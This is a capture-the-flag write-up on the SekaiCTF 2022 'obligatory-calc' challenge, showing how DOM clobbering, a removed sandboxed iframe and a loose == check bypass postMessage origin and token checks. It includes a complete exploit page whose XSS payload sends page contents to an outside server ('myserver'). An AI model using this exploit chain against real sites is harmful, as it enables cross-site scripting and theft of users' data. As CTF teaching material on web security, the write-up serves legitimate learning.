 # Bypassing SOP with Iframes - 2

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

- **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/index.html#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  - Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  - Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

- Sending `token` in the postMessage with value `null` is trivial.
- **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
  <body>
    <script>
      // Abuse "expr" param to cause a HTML injection and
      // clobber document.getElementById and make window.calc.contentWindow undefined
      open(
        'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
      )

      function start() {
        var ifr = document.createElement("iframe")
        // Create a sandboxed iframe, as sandboxed iframes will have origin null
        // this null origin will document.cookie trigger an error and window.token will be undefined
        ifr.sandbox = "allow-scripts allow-popups"
        ifr.srcdoc = `<script>(${hack})()<\/script>`

        document.body.appendChild(ifr)

        function hack() {
          var win = open("https://obligatory-calc.ctf.sekai.team")
          setTimeout(() => {
            parent.postMessage("remove", "*")
            // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
            // token=null equals to undefined and e.source will be null so null == undefined
            win.postMessage(
              {
                token: null,
                result:
                  "<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
              },
              "*"
            )
          }, 1000)
        }

        // this removes the iframe so e.source becomes null in postMessage event.
        onmessage = (e) => {
          if (e.data == "remove") document.body.innerHTML = ""
        }
      }
      setTimeout(start, 1000)
    </script>
  </body>
</html>
```

